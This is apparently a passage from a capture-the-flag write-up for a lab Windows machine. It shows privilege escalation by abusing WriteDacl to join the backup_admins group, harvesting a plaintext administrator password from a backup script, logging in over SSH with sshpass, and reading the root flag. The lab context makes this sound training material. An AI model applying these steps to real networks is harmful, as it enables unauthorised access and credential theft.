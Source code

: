`claire` has `writedacl` over `backup_admins` group, so:

```shell
net group backup_admins claire /add
```

Now we can go to the `administrator` folder and there are multiple scripts in the backup scripts folder:

```bash
PS C:\Users\Administrator\Desktop\Backup Scripts> dir | Select-String "Password"                                             

BackupScript.ps1:1:# admin password                                                                                          
BackupScript.ps1:2:$password="Cr4ckMeIfYouC4n!"     
```

Try `administrator` with this password and:

```bash
$ sshpass -p 'Cr4ckMeIfYouC4n!' ssh Administrator@10.10.10.77
Microsoft Windows [Version 6.3.9600]                                                                                         
(c) 2013 Microsoft Corporation. All rights reserved.
```

## Post Exploitation

Get the flag:

```shell
administrator@REEL C:\Users\Administrator>type Desktop\root.txt                                                              
4dbdf359b13068dbccc394fef88b5b82
```
